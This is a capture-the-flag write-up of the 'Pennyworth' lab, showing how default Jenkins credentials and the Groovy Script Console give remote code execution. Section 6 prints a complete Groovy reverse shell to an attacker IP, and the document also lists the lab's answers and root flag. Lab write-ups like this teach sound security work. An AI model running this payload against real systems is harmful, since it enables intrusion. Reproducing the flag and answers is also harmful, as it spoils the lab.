



# Pennyworth

This write-up is provided strictly for educational purposes, to demonstrate how exposed administrative interfaces and insecure script consoles can lead to full system compromise in controlled lab environments.

---

## Overview

This write-up documents the compromise of the _Pennyworth_ machine.
The attack chain is strictly evidence-based: reconnaissance, service identification, Jenkins enumeration, Groovy Script Console abuse, reverse shell execution, and flag retrieval.

All steps are reproducible and command-driven.

---

## Answers Summary

- **CVE** → Common Vulnerabilities and Exposures
- **CIA triad** → Confidentiality, Integrity, Availability
- **Port 8080 service version** → Jetty 9.4.39.v20210325
- **Jenkins version** → 2.289.1
- **Script language accepted** → Groovy
- **Windows cmd variable** → cmd.exe
- **Alternative to `ip a`** → ifconfig
- **Netcat UDP switch** → -u
- **Connection-back technique** → reverse shell
- **Root Flag** → 9cdfb439c7876e703e307864c9167a15

---

## 1. Initial Reconnaissance

A full TCP scan was performed:

```bash
sudo nmap -sCV <target-ip> -p- --min-rate=1000
```

This command:

- Performs a complete port scan (`-p-`)
- Runs default NSE scripts (`-sC`)
- Detects service versions (`-sV`)
- Increases scan speed (`--min-rate=1000`)

### Results

```
8080/tcp open  http  Jetty 9.4.39.v20210325
```

Only one relevant service was exposed:

- **Port 8080** — Jetty web server

---

## 2. Service Enumeration

Accessing the web service in a browser:

```
http://<target-ip>:8080
```

The interface revealed a **Jenkins** login portal.

Further inspection confirmed in burpsuite response:

- Jenkins version: **2.289.1**



---

## 3. Jenkins Access

Default credentials were tested.

Successful authentication:

```
Username: root
Password: password
```

Upon login, administrative access to Jenkins was obtained.

---

## 4. Script Console Abuse

Navigating to:

```
Manage Jenkins → Script Console
http://<target-ip>:8080/script
```

The console accepts **Groovy** scripts.

Groovy allows direct execution of Java code on the server with full JVM access.

This provides Remote Code Execution (RCE).

---

## 5. Reverse Shell Preparation

A Netcat listener was started on the attacker machine:

```bash
nc -lvnp 4444
```

This command:

- `-l` → listen mode
- `-v` → verbose
- `-n` → disable DNS resolution
- `-p 4444` → listen on port 4444

---

## 6. Groovy Reverse Shell Execution

The following Groovy [payload](https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76) was executed in the Jenkins Script Console:

```groovy
String host="10.10.14.58";
int port=4444;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();
Socket s=new Socket(host,port);
InputStream pi=p.getInputStream(),pe=p.getErrorStream(),si=s.getInputStream();
OutputStream po=p.getOutputStream(),so=s.getOutputStream();
while(!s.isClosed()){
    while(pi.available()>0)so.write(pi.read());
    while(pe.available()>0)so.write(pe.read());
    while(si.available()>0)po.write(si.read());
    so.flush();
    po.flush();
    Thread.sleep(50);
    try { p.exitValue(); break; } catch (Exception e){}
};
p.destroy();
s.close();
```

### What this payload does:

1. Launches `/bin/bash`
2. Opens a TCP socket to the attacker IP
3. Redirects stdin/stdout/stderr to the socket
4. Provides an interactive reverse shell

Upon execution, the Netcat listener received a connection.



---

## 7. Flag Discovery

Inside the reverse shell:

```bash
cd
ls
```

Output:

```
flag.txt
snap
```

Retrieving the flag:

```bash
cat flag.txt
```

Flag:

```
9cdfb439c7876e703e307864c9167a15
```



---

## Key Takeaways

- Exposed Jenkins instances represent critical attack surfaces.
- Script Console access equals full system compromise.
- Groovy provides direct JVM-level command execution.
- Reverse shells remain a reliable post-exploitation technique.
- Administrative interfaces should never be publicly exposed.

---

## Conclusion

The compromise followed a clear and reproducible chain:

1. Full TCP reconnaissance.
2. Service and version detection.
3. Jenkins identification.
4. Default credential access.
5. Groovy Script Console abuse.
6. Reverse shell execution.
7. Flag retrieval.

This lab demonstrates how exposed CI/CD infrastructure can directly lead to remote system compromise when not properly secured.
